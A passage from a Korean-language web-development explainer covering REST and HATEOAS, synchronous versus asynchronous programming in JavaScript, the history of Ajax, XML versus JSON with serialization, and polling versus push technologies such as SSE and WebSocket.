* *문제점*: 대부분의 현대 API는 `Content-Type: application/json`만 선언합니다. 클라이언트는 응답 본문의 `"user_id"`, `"auth_level"`이라는 Key가 구체적으로 무슨 뜻인지, 어떤 스펙 문서를 봐야 하는지 알 수 없습니다.
* *해결책*: 커스텀 미디어 타입(`application/vnd.mycorp.user+json`)을 정의하거나, `Link` 헤더를 통해 IANA에 등록된 프로필(명세서 문서 URI)을 제공해야 진정한 Self-descriptive가 완성됩니다.

#### (2) HATEOAS (Hypermedia As The Engine Of Application State)
* 애플리케이션의 상태 전이가 **응답 본문에 포함된 하이퍼링크(Hypermedia)를 통해 동적으로 결정**되어야 합니다.
* 웹 브라우저를 떠올려 보십시오. 우리는 브라우저 주소창에 다음 페이지 주소를 직접 손으로 치지 않습니다. 페이지 안에 있는 링크(`<a href="...">`)나 버튼을 클릭하면서 다음 상태로 자연스럽게 전이합니다.
* API 응답 역시 다음으로 할 수 있는 행위의 링크를 담아서 주어야 합니다.

```json
/* HATEOAS를 만족하는 진정한 RESTful 응답 예시 */
{
  "orderId": 1024,
  "status": "PAYMENT_PENDING",
  "amount": 50000,
  "_links": {
    "self": { "href": "https://api.shop.com/orders/1024" },
    "cancel": { "href": "https://api.shop.com/orders/1024/cancel", "method": "POST" },
    "payment": { "href": "https://api.shop.com/payments/orders/1024", "method": "POST" }
  }
}
```
클라이언트는 주문 상태가 바뀌었을 때 결제 링크가 사라지거나 취소 링크가 사라지는 것을 보고 화면의 버튼을 노출할지 결정할 수 있으며, 서버의 엔드포인트 URL이 바뀌어도 클라이언트 코드를 고칠 필요가 없어집니다.

---

### 5. 실무에서의 현실적 타협: Pragmatic REST vs HTTP API

만약 HATEOAS와 Self-descriptive를 100% 지키지 못했다면 그 API는 실패한 것일까요? 그렇지 않습니다.

* **왜 대부분의 기업은 HATEOAS를 생략하는가?**
  * HATEOAS와 커스텀 미디어 타입을 완벽히 구현하려면 서버와 클라이언트 모두 링크를 조립하고 해석하는 막대한 개발 오버헤드가 발생합니다.
  * 모바일 앱이나 웹 프론트엔드는 서버 링크를 동적으로 따라가기보다는 이미 Swagger나 TypeScript 타입 정의를 통해 컴파일 타임에 엔드포인트를 강결합하는 것이 개발 생산성과 속도 면에서 압도적으로 유리하기 때문입니다.
* **현대 실무의 결론**:
  * 엄밀한 학술적 의미: 대부분의 API는 REST가 아니라 **"HTTP API"** 또는 **"Pragmatic REST(실용적 REST)"**입니다.
  * 그러나 업계 관행상 자원 기반의 직관적인 URI와 올바른 HTTP 메서드(GET/POST/PUT/DELETE), HTTP 상태 코드(200, 201, 400, 404, 500)를 잘 활용한 API를 통칭하여 **"REST API"**라고 부르고 있습니다.

---

## 05 동기와 비동기라는 개념은 무엇이고, 차이는 무엇인가요?

프로그래밍과 웹 개발을 배울 때 가장 거대한 패러다임 전환을 요구하는 개념이 바로 **동기(Synchronous)**와 **비동기(Asynchronous)**입니다. 이 개념은 단순히 코드 작성법의 차이를 넘어, 시스템의 처리량(Throughput)과 사용자의 반응성(Responsiveness)을 좌우하는 핵심 열쇠입니다.

```
[ 동기 (Synchronous) ]
작업 A ────────► [ 끝날 때까지 대기 ] ────────► 작업 A 완료
                                           작업 B ────────► [ 대기 ] ──► 작업 B 완료
(줄을 서서 한 사람씩 앞 작업이 끝나야 다음 작업으로 넘어감)

[ 비동기 (Asynchronous) ]
작업 A ───────► (백그라운드에 작업 위임) ────────────────────────► 완료 알림(콜백)
작업 B ─────────────► (즉시 시작) ──────────► 작업 B 완료
(요청을 던져두고 기다리지 않은 채 내 할 일을 계속 진행함)
```

### 1. 기본 정의와 동작 메커니즘

#### (1) 동기 (Synchronous: 동시에 발생하는)
* **정의**: 요청(Request)과 결과(Response)가 시간적으로 일치하는 방식입니다. 즉, 어떤 작업을 시작하면 **그 작업이 완전히 끝나서 결과를 돌려줄 때까지 다음 작업을 진행하지 않고 멈추어 기다립니다.**
* **특징**: 직관적이고 순차적이어서 코드를 읽고 이해하기 쉽습니다. A가 끝나야 B가 실행되고, B가 끝나야 C가 실행되므로 흐름 추적이 매우 명쾌합니다.
* **문제점**: 데이터베이스 조회나 네트워크 통신처럼 시간이 오래 걸리는 I/O(입출력) 작업이 실행되면, 그동안 프로그램 전체가 얼어붙어(Freeze) 사용자의 마우스 클릭조차 반응하지 못하는 참사가 벌어집니다.

#### (2) 비동기 (Asynchronous: 동시에 발생하지 않는)
* **정의**: 작업을 요청한 뒤, **결과가 나올 때까지 자리에 멈춰 서서 기다리지 않고 즉시 다음 코드를 실행하러 떠나는 방식**입니다.
* **특징**: 백그라운드에서 맡겨둔 작업이 끝나면, 이벤트나 알림(Callback 함수, Promise 등)을 통해 나중에 결과를 전달받아 처리합니다.
* **장점**: 기다리는 시간 동안 CPU나 프로그램이 놀지 않고 다른 유용한 작업(UI 렌더링, 다른 요청 처리)을 수행할 수 있으므로 자원 활용률과 동시 처리 능력이 비약적으로 상승합니다.
* **단점**: 실행 순서가 코드에 적힌 순서대로 흘러가지 않으므로, 흐름을 추적하고 디버깅하기가 상대적으로 어렵습니다.

---

### 2. 블로킹(Blocking) vs 논블로킹(Non-blocking) 4분면

동기/비동기와 항상 함께 등장하는 개념이 **블로킹**과 **논블로킹**입니다. 많은 이들이 이 둘을 동일시하지만, 엄연히 서로 다른 관심사를 다룹니다.
* **동기 / 비동기**: "작업 완료 여부를 **누가 신경 쓰는가 / 결과의 반환 시간**의 일치 여부"
* **블로킹 / 논블로킹**: "다른 작업이 진행되는 동안 **자신의 제어권(Control)을 뺏기는가, 유지하는가**"

```
                    [ 블로킹 (Blocking) ]               [ 논블로킹 (Non-blocking) ]
          ┌──────────────────────────────────┬──────────────────────────────────┐
 [ 동기 ] │ ① Sync-Blocking                  │ ② Sync-Nonblocking               │
 (Sync)   │ 결과 올 때까지 제어권 뺏기고 멍때림  │ 제어권은 내가 쥐고 계속 "다 됐어?" │
          │ (전통적인 C/Java 파일 읽기)       │ 물어보며 확인 (Busy Waiting)     │
          ├──────────────────────────────────┼──────────────────────────────────┤
 [ 비동기]│ ③ Async-Blocking                 │ ④ Async-Nonblocking              │
 (Async)  │ 제어권이 뺏겨 대기하는데,          │ 일 던져두고 내 일 하다가,        │
          │ 정작 비동기로 돌아가는 비효율 구조│ 완료 알림(콜백) 오면 그때 수습  │
          │ (잘못 설계된 비동기 DB 드라이버)  │ (Node.js, 현대 고성능 웹 서버)    │
          └──────────────────────────────────┴──────────────────────────────────┘
```

---

### 3. 일상 비유: 1인 카페에서 커피 주문하기

* **동기 + 블로킹 (Sync-Blocking)**:
  손님이 카운터에서 커피를 주문합니다. 바리스타가 원두를 갈고 에스프레소를 추출하는 3분 동안 손님은 카운터 앞에 멍하니 서 있어야 하며(제어권 상실), 다음 손님은 앞사람의 커피가 나올 때까지 주문조차 하지 못하고 줄을 서서 기다려야 합니다.
* **비동기 + 논블로킹 (Async-Nonblocking)**:
  손님이 카운터에서 커피를 주문하고 결제하자마자 바리스타가 **진동벨(Callback / Promise 객체)**을 손에 쥐여줍니다(즉시 반환). 손님은 진동벨을 들고 자리로 돌아가 스마트폰으로 웹서핑을 하거나 책을 읽습니다(내 할 일 계속 진행). 바리스타는 앞 손님을 기다리게 하지 않고 다음 손님의 주문을 착착 받습니다. 커피가 완성되어 진동벨이 울리면(이벤트 발생), 손님은 픽업대로 가서 커피를 받아옵니다.

---

### 4. 자바스크립트 비동기 문법의 3단계 진화사

웹 프론트엔드와 Node.js의 심장인 자바스크립트는 싱글 스레드(Single Thread)로 동작하기 때문에 비동기 처리가 숙명과도 같습니다. 자바스크립트의 비동기 문법은 개발자의 고통을 줄이는 방향으로 눈부시게 진화해 왔습니다.

#### 1단계: 콜백 함수 (Callback Function)와 콜백 지옥
비동기 작업이 끝났을 때 실행해 달라고 인자로 넘겨주는 함수를 콜백 함수라고 합니다. 하지만 비동기 작업이 연속으로 이어지면 코드의 들여쓰기가 끝없이 깊어지는 **'콜백 지옥(Callback Hell)'**에 빠지게 됩니다.

```javascript
// 콜백 지옥의 끔찍한 모습
getUser(userId, function(user) {
    getOrders(user.id, function(orders) {
        getPaymentHistory(orders[0].id, function(payment) {
            renderReceipt(payment, function() {
                console.log("영수증 출력 완료!");
            });
        });
    });
});
```

#### 2단계: 프로미스 (Promise)
ES6(2015)에서 도입된 객체로, **"지금은 없지만 미래의 어느 시점에 돌려줄 결과값"**을 약속하는 객체입니다. 세 가지 상태를 가집니다.
* **Pending (대기)**: 비동기 처리가 아직 진행 중인 상태
* **Fulfilled (이행)**: 비동기 처리가 성공적으로 완료되어 결과값을 반환한 상태 (`resolve()`)
* **Rejected (거부)**: 비동기 처리가 실패하거나 오류가 발생한 상태 (`reject()`)

`.then()` 체이닝을 통해 콜백 지옥을 수직 방향으로 깔끔하게 펼쳤습니다.

```javascript
getUser(userId)
    .then(user => getOrders(user.id))
    .then(orders => getPaymentHistory(orders[0].id))
    .then(payment => renderReceipt(payment))
    .then(() => console.log("영수증 출력 완료!"))
    .catch(error => console.error("에러 발생:", error));
```

#### 3단계: async / await
ES8(2017)에서 추가된 문법으로, 프로미스를 완전히 대체하는 것이 아니라 프로미스 위에 얹혀진 **문법적 설탕(Syntactic Sugar)**입니다.
비동기 코드임에도 불구하고 마치 동기식 코드처럼 위에서 아래로 물 흐르듯 읽히며, 에러 처리 역시 친숙한 `try-catch` 문을 그대로 사용할 수 있습니다.

```javascript
// 마치 동기식 코드처럼 읽히는 궁극의 비동기 문법
async function processUserReceipt(userId) {
    try {
        const user = await getUser(userId);
        const orders = await getOrders(user.id);
        const payment = await getPaymentHistory(orders[0].id);
        await renderReceipt(payment);
        console.log("영수증 출력 완료!");
    } catch (error) {
        console.error("처리 중 에러 발생:", error);
    }
}
```

---

## 06 Ajax라는 것은 무엇인가요?

오늘날 우리는 인스타그램을 스크롤하면 화면 깜빡임 없이 새로운 피드가 끝없이 이어지고, 네이버 지도에서 마우스를 드래그하면 지도 타일이 매끄럽게 로드되는 것을 너무나 당연하게 여깁니다. 하지만 2000년대 초반만 해도 웹은 그렇지 않았습니다. 웹의 역사는 **Ajax의 등장 이전과 이후**로 완벽하게 갈립니다.

```
[ 전통적인 웹 통신 방식 (동기식) ]
 사용자가 버튼 클릭 ──► 브라우저 하얗게 깜빡임 ──► 서버가 HTML 전체 새로 생성 ──► 화면 전체 다시 렌더링
 (사소한 좋아요 버튼 하나 눌러도 화면 전체가 새로고침됨)

[ Ajax 웹 통신 방식 (비동기식) ]
 사용자가 버튼 클릭 ──► 브라우저 화면 유지 ──► 백그라운드에서 JSON 데이터만 수신 ──► 변경된 숫자만 쏙 갱신
 (화면 깜빡임 제로, 부드러운 앱과 같은 사용자 경험)
```

### 1. Ajax의 탄생과 웹의 대혁명

Ajax는 **Asynchronous JavaScript and XML(비동기 자바스크립트와 XML)**의 약자입니다. 2005년 제시 제임스 가렛(Jesse James Garrett)이 발표한 에세이에서 이 용어가 처음 제안되었습니다.

#### 깜빡이던 웹의 암흑기
Ajax 이전의 웹 브라우저는 웹페이지의 글자 하나, 좋아요 숫자 하나를 바꾸려 해도 서버에 페이지 전체를 다시 요청해야 했습니다. 화면 전체가 하얗게 질렸다가(White flash) 상단 메뉴바부터 푸터까지 모든 HTML/CSS/이미지를 처음부터 다시 다운로드받아 번쩍이며 다시 그렸습니다. 서버에는 엄청난 트래픽 낭비였고, 사용자에게는 극도로 피로한 경험이었습니다.

#### 세상을 뒤흔든 두 사건: 지메일(Gmail, 2004)과 구글 맵스(Google Maps, 2005)
어느 날 구글이 내놓은 두 서비스는 전 세계 소프트웨어 엔지니어들에게 엄청난 충격을 안겼습니다.
* **지메일**: 페이지를 새로고침(F5)하지 않아도 새로운 메일 목록이 실시간으로 상단에 슥 나타났습니다.
* **구글 맵스**: 지도 위를 마우스로 잡고 끌면 화면이 새로고침되지 않고 주변 지도가 매끄럽게 이어져 화면에 붙었습니다.

개발자들은 경악했습니다. "브라우저 플러그인(플래시, 액티브X)도 안 깔았는데 순수 웹 기술로 어떻게 데스크톱 앱 같은 부드러운 동작이 가능하지?"  
그 비밀이 바로 브라우저 내부에 숨겨져 있던 비동기 통신 객체, **XMLHttpRequest**를 활용한 **Ajax**였습니다.

---

### 2. Ajax의 동작 원리

Ajax의 핵심 메커니즘은 매우 단순하고 명쾌합니다.

```
 ┌────────────────────────────────────────────────────────┐
 │ 웹 브라우저 (사용자 화면)                              │
 │                                                        │
 │   1. 사용자 이벤트 (클릭/입력)                          │
 │         │                                              │
 │         ▼                                              │
 │   2. 자바스크립트가 비동기 백그라운드 통신 엔진 가동     │
 │      (Fetch API / XMLHttpRequest)                      │
 │         │                                              │
 └─────────┼──────────────────────────────────────────────┘
           │ (백그라운드에서 HTTP 요청: 화면은 그대로 유지)
           ▼
 ┌────────────────────────────────────────────────────────┐
 │ 백엔드 웹 서버                                         │
 │   - 전체 HTML 페이지를 만들지 않음                     │
 │   - 오직 필요한 핵심 데이터(JSON)만 쏙 뽑아 응답       │
 └─────────┬──────────────────────────────────────────────┘
           │ (순수 데이터만 가볍게 반환: { "likes": 43 })
           ▼
 ┌────────────────────────────────────────────────────────┐
 │ 웹 브라우저 (자바스크립트 엔진)                        │
 │   3. 도착한 JSON 데이터를 수신                         │
 │   4. DOM(Document Object Model)을 부분 조작            │
 │      document.getElementById('like-count').innerText=43│
 │   5. 화면의 해당 숫자만 번쩍임 없이 부드럽게 갱신      │
 └────────────────────────────────────────────────────────┘
```

---

### 3. Ajax 기술의 3세대 변천사

Ajax라는 개념은 동일하지만, 이를 브라우저에서 구현하는 자바스크립트 코드는 세대를 거치며 극적으로 발전했습니다.

```
1세대 (2000년대 초중반)        2세대 (2000년대 후반~2010년대)         3세대 (현대 모던 웹)
┌──────────────────────┐      ┌─────────────────────────┐      ┌─────────────────────────┐
│  XMLHttpRequest(XHR) │ ───► │      jQuery $.ajax()    │ ───► │   Fetch API / Axios     │
│ 원시적, 장황한 이벤트   │      │ 크로스 브라우징 해결, 간결 │      │ Promise 기반 웹 표준,    │
│ 리스너 기반 코드      │      │ 단일 라이브러리 전성시대  │      │ async/await 완벽 지원   │
└──────────────────────┘      └─────────────────────────┘      └─────────────────────────┘
```

#### 코드 비교로 보는 발전의 역사

##### ① 1세대: XMLHttpRequest (원조 방식)
초기의 XHR 객체는 문법이 매우 장황하고, 성공 여부를 상태 코드(readyState, status)로 일일이 분기해야 했습니다.
```javascript
var xhr = new XMLHttpRequest();
xhr.open("GET", "https://api.example.com/users/1", true);
xhr.onreadystatechange = function () {
    if (xhr.readyState === 4 && xhr.status === 200) {
        var data = JSON.parse(xhr.responseText);
        console.log("사용자 이름:", data.name);
    }
};
xhr.send();
```

##### ② 2세대: jQuery `$.ajax()`
브라우저마다 미묘하게 다르던 통신 규격을 하나로 통일하고, 개발자의 코드 라인 수를 1/3로 줄여주며 웹 생태계를 평정했습니다.
```javascript
$.ajax({
    url: "https://api.example.com/users/1",
    method: "GET",
    success: function(data) {
        console.log("사용자 이름:", data.name);
    },
    error: function(err) {
        console.error("에러:", err);
    }
});
```

##### ③ 3세대: 현대 웹 표준 Fetch API와 `async/await`
외부 라이브러리 설치 없이 모던 브라우저에 내장된 웹 표준 API입니다. 프로미스를 기반으로 하여 극도로 간결하고 우아합니다.
```javascript
async function fetchUserData() {
    try {
        const response = await fetch("https://api.example.com/users/1");
        if (!response.ok) throw new Error(`HTTP 에러: ${response.status}`);
        
        const data = await response.json(); // 비동기로 JSON 파싱
        console.log("사용자 이름:", data.name);
    } catch (error) {
        console.error("통신 실패:", error);
    }
}
```

> **[참고: Ajax 이름에 붙은 XML은 어디로 갔을까요?]**  
> Ajax의 'X'는 분명히 **XML**을 뜻하지만, 현대의 Ajax 통신에서 XML을 쓰는 곳은 거의 없습니다. 99%의 시스템이 훨씬 가볍고 다루기 쉬운 **JSON**을 사용합니다. 이름은 여전히 관성적으로 Ajax라고 부르지만, 실질적으로는 **AjaJ(Asynchronous JavaScript and JSON)**로 진화한 것입니다.

---

## 07 XML, Json은 프로그램인가요? 어떻게 생긴건가요?

컴퓨터를 처음 배우는 비전공자나 주니어들이 흔히 하는 귀여운 착각 중 하나가 바로 "JSON이나 XML을 프로그래밍 언어나 프로그램의 일종"으로 오해하는 것입니다. 

결론부터 아주 단호하게 말씀드리자면, **XML과 JSON은 프로그램도 아니고, 프로그래밍 언어도 아닙니다.**

```
 ┌────────────────────────────────────────────────────────┐
 │                      오해 바로잡기                     │
 ├────────────────────────────┬───────────────────────────┤
 │ 프로그래밍 언어 / 프로그램 │ Python, Java, C++, JS 등  │
 │ (로직 실행, if문, for문)   │ 연산을 수행하고 기계를 제어│
 ├────────────────────────────┼───────────────────────────┤
 │ 데이터 교환 포맷           │ JSON, XML, YAML, CSV      │
 │ (Data Interchange Format)  │ 단순히 데이터를 적어두는   │
 │                            │ '텍스트 문서 양식(포맷)'  │
 └────────────────────────────┴───────────────────────────┘
```

XML과 JSON은 그 자체로 아무것도 실행하거나 계산할 수 없습니다. 더하기 연산도 못 하고, if문 조건 분기도 못 합니다. 이들은 단지 **"서로 다른 프로그래밍 언어로 만들어진 두 컴퓨터 시스템이 네트워크를 통해 데이터를 주고받을 때, 서로 알아들을 수 있도록 약속한 텍스트 표기 규칙(데이터 포맷)"**에 불과합니다.

파이썬으로 만든 서버가 C#으로 만든 클라이언트에게 "회원 정보"를 보내고 싶을 때, 파이썬 고유의 메모리 객체를 그대로 쏠 수는 없습니다. 누구나 읽을 수 있는 표준 텍스트 양식(JSON이나 XML)으로 예쁘게 글을 적어서 보내면, C# 프로그램이 그 글을 읽고 자신의 객체로 번역해 사용하는 것입니다.

---

### 1. XML (eXtensible Markup Language): 태그 기반의 원조 강자

XML은 HTML의 친척입니다. 1990년대 후반 W3C에서 표준으로 제정되었습니다.
* **구조적 특징**: 여는 태그(`<tag>`)와 닫는 태그(`</tag>`)의 쌍으로 계층 구조(부모-자식 트리)를 만듭니다.
* **장점**: 
  * DTD나 XML Schema(XSD)를 통해 데이터의 문법과 유효성을 엄격하게 사전 검증할 수 있습니다.
  * 태그에 속성(Attribute)을 부여할 수 있어 메타데이터 표현력이 풍부합니다.
* **단점**: 
  * 닫는 태그 때문에 파일 크기가 불필요하게 커져 네트워크 대역폭을 많이 소모합니다.
  * 기계가 이를 파싱(해석)하는 데 CPU 자원을 많이 쓰고 코드가 복잡해집니다.

---

### 2. JSON (JavaScript Object Notation): 현대 웹을 지배한 Key-Value 포맷

JSON은 더글라스 크록포드(Douglas Crockford)가 2000년대 초반 대중화한 표기법으로, 자바스크립트에서 객체를 선언할 때 쓰는 문법 형태에서 영감을 받아 탄생했습니다.
* **구조적 특징**: `{ "Key": Value }` 형태의 키-값 쌍과 대괄호 `[ ... ]` 배열로 데이터를 표현합니다.
* **지원하는 데이터 타입(단 6가지)**:
  1. 문자열 (String) - 반드시 큰따옴표(`"`) 사용
  2. 숫자 (Number) - 정수 및 실수
  3. 불리언 (Boolean) - `true` / `false`
  4. 배열 (Array) - `[1, 2, 3]`
  5. 객체 (Object) - `{ "key": "value" }`
  6. 빈 값 (null)
* **장점**: 
  * 군더더기 태그가 없어 용량이 매우 가볍고 인간이 눈으로 읽기에(Human-readable) 너무나 직관적입니다.
  * 현대 모든 프로그래밍 언어가 표준 라이브러리 차원에서 초고속 JSON 파서를 기본 탑재하고 있습니다.

---

### 3. 실전 예제 비교: 동일한 데이터를 XML과 JSON으로 표현하기

어떤 한 소프트웨어 개발자의 프로필 데이터를 두 가지 포맷으로 똑같이 표현해 보겠습니다.

#### XML 형태 (`developer.xml`)
```xml
<?xml version="1.0" encoding="UTF-8"?>
<developer id="1001">
    <name>홍길동</name>
    <age>29</age>
    <isEmployed>true</isEmployed>
    <skills>
        <skill>Java</skill>
        <skill>Python</skill>
        <skill>React</skill>
    </skills>
    <address>
        <city>서울</city>
        <zipcode>06000</zipcode>
    </address>
</developer>
```

#### JSON 형태 (`developer.json`)
```json
{
  "id": 1001,
  "name": "홍길동",
  "age": 29,
  "isEmployed": true,
  "skills": ["Java", "Python", "React"],
  "address": {
    "city": "서울",
    "zipcode": "06000"
  }
}
```

한눈에 보아도 JSON이 닫는 태그(`<skill></skill>`)의 반복이 없어 훨씬 깔끔하고 읽기 편하며, 전체 바이트 수(글자 수)도 약 30~40% 이상 절약됨을 알 수 있습니다.

---

### 4. 직렬화(Serialization)와 역직렬화(Deserialization)

소프트웨어 시스템에서 JSON이나 XML을 다룰 때 항상 거치는 핵심 변환 메커니즘이 바로 **직렬화**와 **역직렬화**입니다.

```
       [ 직렬화 (Serialization / Stringify) ]
    RAM 메모리 속 살아있는 객체 ──────────────► 전송 가능한 평문 텍스트 (JSON String)
    (User { name: "철수", age: 20 })          '{"name":"철수","age":20}'
                       ▲                                  │
                       │                                  │
                       └──────────────────────────────────┘
       [ 역직렬화 (Deserialization / Parse) ]
    수신한 텍스트를 문법 분석하여 ─────────────► 내 언어의 네이티브 객체로 복원
```

* **직렬화 (Serialization)**: 프로그램 메모리에 존재하는 복잡한 구조의 인스턴스/객체를 파일로 저장하거나 네트워크 선로를 통해 전송할 수 있도록 **일렬의 바이트 또는 문자열(JSON 텍스트)로 납작하게 펴서 변환하는 과정**입니다.
* **역직렬화 (Deserialization)**: 네트워크를 통해 전송받은 JSON 문자열을 파싱(해석)하여 **내 프로그램의 메모리 공간에 온전한 객체 인스턴스로 조립하여 복원하는 과정**입니다.

#### 자바스크립트에서의 실전 코드
```javascript
// 1. 메모리 상의 자바스크립트 객체
const userObject = { name: "이영희", role: "DevOps" };

// 2. 직렬화 (Object -> JSON 문자열)
const jsonString = JSON.stringify(userObject);
console.log(typeof jsonString); // "string" 출력
console.log(jsonString);        // '{"name":"이영희","role":"DevOps"}'

// 3. 역직렬화 (JSON 문자열 -> Object)
const parsedObject = JSON.parse(jsonString);
console.log(typeof parsedObject); // "object" 출력
console.log(parsedObject.role);   // "DevOps" 접근 가능
```

---

### 5. XML vs JSON 최종 비교 매트릭스

| 비교 항목 | XML (eXtensible Markup Language) | JSON (JavaScript Object Notation) |
| :--- | :--- | :--- |
| **형태 및 구조** | HTML 유사, 여는 태그와 닫는 태그 쌍 | 중괄호, 대괄호 기반 Key-Value 쌍 |
| **데이터 용량** | 닫는 태그로 인해 무겁고 큼 | 군더더기가 없어 가볍고 컴팩트함 |
| **가독성** | 복잡하고 장황함 | 간결하고 인간 친화적임 |
| **파싱(해석) 속도**| 상대적으로 느리고 무거움 (DOM 파서 필요)| 압도적으로 빠르고 가벼움 |
| **데이터 타입 지원**| 모든 데이터가 기본적으로 '문자열' 취급 | String, Number, Boolean, Array, Object 등 명확 |
| **유효성 검증(Validation)**| DTD, XML Schema 등 강력한 표준 보유 | JSON Schema가 존재하나 XML만큼 보편적이진 않음 |
| **주요 사용 분야** | 레거시 엔터프라이즈, 전자세금계산서, 전자정부 프레임워크, 안드로이드 UI 레이아웃, Maven 설정(`pom.xml`) | **현대 웹/모바일 REST API 표준**, 설정 파일(`package.json`), NoSQL DB(MongoDB) |

---

## 08 폴링과 이벤트 방식의 차이는 무엇인가요?

우리가 매일 사용하는 카카오톡이나 슬랙 같은 메신저는 상대방이 메시지를 보내는 즉시 내 화면에 알림이 뜹니다. 주식 트레이딩 앱은 0.1초 단위로 주가가 요동치며 갱신됩니다.

하지만 웹의 근본 프로토콜인 **HTTP는 본질적으로 '단방향의 요청-응답(Request-Response)' 모델**입니다. 즉, 클라이언트가 먼저 손을 들어 질문(Request)을 던지지 않으면, 서버는 아무리 새로운 데이터가 생겨도 클라이언트에게 먼저 다가가서 말을 건넬(Push) 방법이 원천적으로 없습니다.

이 근본적인 한계를 극복하고 실시간성(Real-time)을 구현하기 위해 엔지니어들은 두 가지 상반된 접근 방식을 취했습니다. 그것이 바로 **폴링(Polling)**과 **이벤트 기반(Event-Driven)** 방식입니다.

```
[ 폴링 (Polling) ]                              [ 이벤트 기반 (Push / WebSocket) ]
"새 데이터 있나요?"                                [ 최초에 지속 연결 파이프라인 수립 ]
 클라이언트 ────────► 서버 ("아니오, 없어요")            클라이언트 ════════════ 서버
"새 데이터 있나요?"                                                      │
 클라이언트 ────────► 서버 ("아니오, 없어요")                            │ (서버에 데이터 발생!)
"새 데이터 있나요?"                                                      ▼
 클라이언트 ────────► 서버 ("네, 여기 1건 있어요!")     클라이언트 ◄──────────── 서버 ("새 데이터 배달!")
(클라이언트가 주기적으로 끊임없이 질문)                 (데이터가 생겼을 때 서버가 즉각 능동적 전달)
```

### 1. 폴링 (Polling): 주기적으로 묻는 방식

#### 일상 비유: 차 뒷좌석의 보채는 아이
가족 여행을 떠날 때, 뒷좌석에 탄 아이가 1분마다 **"엄마, 다 왔어? 다 왔어? 아직 멀었어?"**라고 끊임없이 묻는 상황을 떠올려 보십시오. 엄마는 그때마다 "아니 아직 안 왔어"라고 대답해야 합니다. 아이도 입이 아프고 엄마도 피곤해 죽을 지경입니다. 이것이 바로 폴링입니다.

#### (1) 단순 폴링 (Short Polling)
* 클라이언트가 자바스크립트의 `setInterval()` 같은 타이머를 돌려, 예를 들어 3초마다 무조건 서버로 HTTP GET 요청을 날립니다.
* **장점**: 구현이 유치할 정도로 쉽고 단순합니다. 서버 측에 별도의 특수 프로토콜 설정이 필요 없습니다.
* **치명적 단점**:
  * **네트워크 자원 및 서버 리소스의 극심한 낭비**: 새 데이터가 전혀 들어오지 않았는데도 클라이언트 수만 대가 1초마다 요청을 보내면, 서버는 수만 번의 빈 껍데기 응답(`{ data: [] }`)을 만들어 내느라 CPU와 네트워크 대역폭이 고갈됩니다.
  * **지연 시간(Latency)의 한계**: 만약 5초 간격으로 폴링을 한다면, 데이터가 발생하고 최대 5초 뒤에야 클라이언트가 이를 알 수 있으므로 진정한 실시간(Zero-latency)이 불가능합니다.

#### (2) 롱 폴링 (Long Polling)
* 단순 폴링의 낭비를 줄이기 위해 고안된 변형 기법입니다.
* 클라이언트가 요청을 보내면, 서버는 **데이터가 없다고 즉시 빈 응답을 주지 않고 연결을 열어둔 채(Hold) 10초~30초간 대기**합니다.
* 대기 도중 서버에 새로운 데이터가 생기면 그 순간 응답을 쏘고 연결을 닫습니다. 응답을 받은 클라이언트는 그 즉시 다시 새로운 롱 폴링 요청을 서버로 보내 연결을 유지합니다.
* 단순 폴링보다 서버의 헛걸음 응답은 줄어들지만, 데이터가 매우 자주 발생하는 환경에서는 결국 계속해서 HTTP 연결을 맺고 끊는 핸드셰이크 오버헤드가 누적됩니다.

---

### 2. 이벤트 기반 방식 (Event-Driven / Server Push): 알려주는 방식

#### 일상 비유: 택배 도착 알림 문자
택배 기사님에게 10분마다 전화해서 "기사님, 지금 어디세요? 도착했나요?"라고 묻지 않습니다. 우리는 집에서 편안히 자기 할 일을 하고 있다가, 택배가 문 앞에 도착했을 때 울리는 **"문 앞 배송이 완료되었습니다"**라는 SMS 푸시 알림 문자(이벤트)를 확인하고 문을 열면 됩니다.

서버에 관심 있는 상태 변화(이벤트)가 일어났을 때, **서버가 주도권을 쥐고 클라이언트로 데이터를 밀어 넣어주는(Push) 방식**입니다. 불필요한 질의응답 요청이 완전히 제거됩니다.

---

### 3. 실시간 웹 통신 3대 기술 심층 비교

현대 웹에서 이벤트 기반의 실시간 통신을 구현하기 위해 사용하는 표준 기술은 크게 세 가지가 있습니다.

```
┌────────────────────────────────────────────────────────────────────────┐
│                        실시간 웹 기술 스펙트럼                         │
├───────────────────┬──────────────────────────┬─────────────────────────┤
│ 폴링 계열         │ SSE (Server-Sent Events) │ 웹소켓 (WebSocket)      │
│ (Polling)         │                          │                         │
│ HTTP 요청 반복     │ HTTP 기반 단방향 스트림   │ 독립 프로토콜 양방향 연결 │
│ 클라이언트 주도   │ 서버 ──► 클라이언트 단방향│ 클라이언트 ◄──► 서버    │
└───────────────────┴──────────────────────────┴─────────────────────────┘
```

#### ① SSE (Server-Sent Events)
* **특징**: 전통적인 HTTP 연결 위에서 동작합니다. 클라이언트가 한 번 연결(`new EventSource()`)을 맺어두면, 서버는 연결을 끊지 않고 데이터가 생길 때마다 텍스트 스트림 형태로 클라이언트에 일방적으로 이벤트를 쏴줍니다.
* **장점**:
  * HTTP 표준 규격이므로 방화벽이나 프록시 서버 통과에 아무런 제약이 없습니다.
  * 네트워크 연결이 끊기면 브라우저가 **스스로 자동 재연결(Auto Reconnect)**을 시도합니다.
  * 구현 난이도가 웹소켓에 비해 훨씬 낮습니다.
* **단점**: **서버에서 클라이언트로만 흐르는 단방향(One-way)** 통신입니다. 클라이언트가 서버로 무언가 보내려면 별도의 일반 HTTP POST 요청을 날려야 합니다.
* **적합한 곳**: 서버의 일방적 알림 서비스 (주식 시세 전광판, 뉴스 속보 푸시 알림, 야구 문자 중계, AI 챗봇의 텍스트 토큰 스트리밍 응답).

#### ② 웹소켓 (WebSocket)
* **특징**: 웹 브라우저와 서버 사이에 영구적인 통로를 뚫고 양쪽에서 원할 때 언제든 데이터를 주고받는 **완전한 양방향 전이중(Full-Duplex) 통신 프로토콜**입니다.
* **동작**: 처음 시작할 때는 일반 HTTP 포트(80/443)로 접근하여 "프로토콜을 웹소켓으로 업그레이드하자"는 핸드셰이크(Handshake)를 거친 후, `ws://` 또는 `wss://` 프로토콜로 전환하여 연결을 계속 유지합니다.
* **장점**:
  * 한번 연결이 맺어지면 무거운 HTTP 헤더 없이 단 2~14바이트의 아주 얇은 프레임(Frame)으로 초고속 통신을 수행합니다.
  * 극도의 초저지연(Zero-latency) 양방향 대화가 가능합니다.
* **단점**:
  * 연결을 상시 유지(Stateful)해야 하므로 수십만 대의 접속자가 몰릴 경우 서버의 커넥션 관리(메모리 소모) 부담이 급증합니다.
  * 연결이 끊겼을 때의 재연결 로직(Heartbeat/Ping-Pong)을 개발자가 직접 구현해야 합니다.
